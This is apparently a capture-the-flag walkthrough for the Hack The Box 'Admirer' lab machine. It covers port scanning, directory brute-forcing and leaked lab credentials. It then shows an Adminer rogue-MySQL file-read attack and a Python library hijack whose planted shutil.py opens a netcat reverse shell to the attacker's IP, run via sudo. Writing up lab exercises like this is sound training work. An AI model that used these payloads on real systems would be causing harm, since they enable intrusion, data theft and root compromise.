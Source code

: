 # Hack the Box - Admirer

```CSS
Machine IP: 10.10.10.187 - Linux

Vulnerabilities:
- Adminer
- Python Library Hijacking
```

# Reconaissance
## NMAP (Surface)
```CSS
▶ nmap -Pn -sS -p- 10.10.10.187 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.187
Host is up (0.100s latency).
Not shown: 65532 closed tcp ports (reset)

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 75.35 seconds
```

## NMAP (Deep)
```CSS
▶ nmap -sC -sV -p 21,22,80 10.10.10.187 -oN nmap.deep

Nmap scan report for 10.10.10.187
Host is up (0.088s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a71e92163699dcbdd84021a2397e1b9 (RSA)
|   256 c595b6214d46a425557a873e19a8e702 (ECDSA)
|_  256 d02dddd05c42f87b315abe57c4a9a756 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.59 seconds
```

## Application (Port 80)
![image](https://user-images.githubusercontent.com/83878909/229423143-85c36971-4509-41d0-8710-63c5cf8efe6e.png)

## Brute-Force (Common Directories and Files)
```
▶ gobuster dir --url http://10.10.10.187 --wordlist /seclists/Discovery/Web-Content/common.txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/229427047-c09451d1-a6ed-4ccd-89aa-bae599dea65b.png)
  - robots.txt
![image](https://user-images.githubusercontent.com/83878909/229427379-501aadd4-818e-4d55-97d8-daf7fec60a39.png)

```CSS
▶ gobuster dir --url http://10.10.10.187/admin-dir --wordlist /seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --extensions php,txt --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/229438336-3f85f7f9-f2b0-4f1f-b238-97f066754b5f.png)
  - contacts.txt
  - credentials.txt
![image](https://user-images.githubusercontent.com/83878909/229438499-9d4192a2-b214-4cdd-b026-8abcf9009cb0.png)
![image](https://user-images.githubusercontent.com/83878909/229438595-3c5b4ddc-cd03-46be-b12a-5a6d84e6b361.png)

---

## FTP Login
  - FTP Login: `ftpuser:%n?4Wz}R$tTF7`
![image](https://user-images.githubusercontent.com/83878909/229441021-6974e5c6-1dd5-4819-97ed-e76d136aab22.png)
  - Download Files: `dump.sql` and `html.tar.gz`.
![image](https://user-images.githubusercontent.com/83878909/229441387-3b270388-ef2e-425b-b68a-1e0b7037d075.png)
  - `dump.sql` : No useful information.
  - `html.tar.gz` : `▶ tar -xvzf html.tar.gz`
![image](https://user-images.githubusercontent.com/83878909/229442818-fc7ff4da-a787-4434-9e9e-b9a0b3ee8cf9.png)
  - `index.php` : Database credentials found `waldo:]F7jLHw:*G>UPrTo}~A"d6b`
![image](https://user-images.githubusercontent.com/83878909/229444624-5870fc15-d309-4d7c-a85a-8c0a5511660d.png)
  - `/utility-scripts/db_admin.php`: Database credentials found `waldo:Wh3r3_1s_w4ld0?`
![image](https://user-images.githubusercontent.com/83878909/229447920-b34a8efb-769a-42de-a16f-a6e808de9bc4.png)
  - `w4ld0s_s3cr3t_d1r/credentials.txt`
![image](https://user-images.githubusercontent.com/83878909/229448581-7a114624-eb66-4323-bdab-bab29630636b.png)

---

## Brute-Force
```
▶ gobuster dir --url http://10.10.10.187/utility-scripts/ --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/combined_words.txt --extensions php,txt  --threads 50
```
![image](https://user-images.githubusercontent.com/83878909/229453408-bae74a9a-7686-4194-a828-c8bf131204e1.png)

---

## Application
  - Adminer
![image](https://user-images.githubusercontent.com/83878909/229453875-f4a1d735-6a09-4bb5-a360-44caae6481ce.png)
  - About [Adminer vulnerability](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).

---

### Create MariaDB Database and User
  1. Start MariaDB : `systemctl start mariadb`
  2. Login to MariaDB : `mysql -u root -p` (The password is root)
  3. Create database : `CREATE DATABASE PwnMe; USE PwnMe; CREATE TABLE pwned (name VARCHAR(2000));`
  4. Create User : `CREATE USER 'xoxo'@'10.10.10.187' IDENTIFIED BY 'passwd';` ##Specify the Victim IP address
  5. Grant Privileges : `GRANT ALL PRIVILEGES ON PwnMe.* TO 'xoxo'@'10.10.10.187';` ##Specify the Victim IP address
  6. Refersh Privileges : `FLUSH PRIVILEGES;`

## Firewall Exception
- Add a Firewall Exception (if enabled): ufw allow from 10.10.14.34 to any port 3306

## Configure MariaDB to bind to attacker Server/VPN IP address
1. Change Bind address in : `/etc/mysql/mariadb.conf.d/50-server.cnf`
2. Bind Address : Attacker Server/VPN IP `bind-address = 10.10.14.34`
![image](https://user-images.githubusercontent.com/83878909/229495035-73e3bf04-05d5-4660-8b6e-a08c37946d42.png)

## Restart and Check Service
- Restart MariaDB server and check that the service is listening on the correct port
```CSS
▶ systemctl restart mariadb
▶ netstat -pano | less
```
![image](https://user-images.githubusercontent.com/83878909/229494627-683d637e-0a9f-4e7e-ba61-25471d2f19e3.png)

---

## Exploit
  - Login using the created database and credentials.
![image](https://user-images.githubusercontent.com/83878909/229499456-19111d24-a091-4402-be57-f7566ffca780.png)
![image](https://user-images.githubusercontent.com/83878909/229498960-f29142fc-f648-45c1-83ae-cece1cf58fd6.png)

### Exfiltrate Data
  - SQL Command: `LOAD DATA LOCAL INFILE '/var/www/html/index.php' INTO TABLE PwnMe.pwned FIELDS TERMINATED BY "\n"`
![image](https://user-images.githubusercontent.com/83878909/229501451-a5e334eb-59c5-4484-aa72-266bce45efce.png)
  - Read from Local Database: `SELECT * FROM pwned;` ##Table Name
  - Credentials Found: `waldo:&<h5b~yK3F#{PaPB&dA}{H>`
![image](https://user-images.githubusercontent.com/83878909/229502059-1cc7ece1-2c10-4c1a-bb33-23a69e796c10.png)

## SSH Login
  - SSH: `ssh waldo@10.10.10.187`
![image](https://user-images.githubusercontent.com/83878909/229502832-cd439abd-e8bd-4a93-8613-2c2696b97cc8.png)

---

## Privilege Escalation
  - Check for commands user `waldo` can run with `sudo` privileges.
![image](https://user-images.githubusercontent.com/83878909/229505608-c3ef4196-8607-4701-ae8c-ebdc738e01f7.png)

  - Found a python script `backup.py` which used a library `shutil`.
![image](https://user-images.githubusercontent.com/83878909/229525273-91529626-73d5-48f5-8212-2100ecf7b411.png)

  - The library can be hijacked by creating a malicious library which contains a reverse shell payload. Then create a python path variable to make python read the malicious library from a desired location instead of the original library from its default location.
    - `cd /dev/shm/`
    - `vi shutil.py`
```CSS
import os
import socket
import subprocess

def make_archive(a, b, c):
	os.system("nc -c /bin/bash 10.10.14.34 9001")
```
  - Path Variable: `PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh`
  - Execute `admin_tasks.sh`: `sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh` 
![image](https://user-images.githubusercontent.com/83878909/229532359-cb9e382b-39e4-415f-82df-a219b48fc510.png)

## Root
![image](https://user-images.githubusercontent.com/83878909/229532625-f3016ed2-f7c2-4869-ae31-7407ffa268df.png)
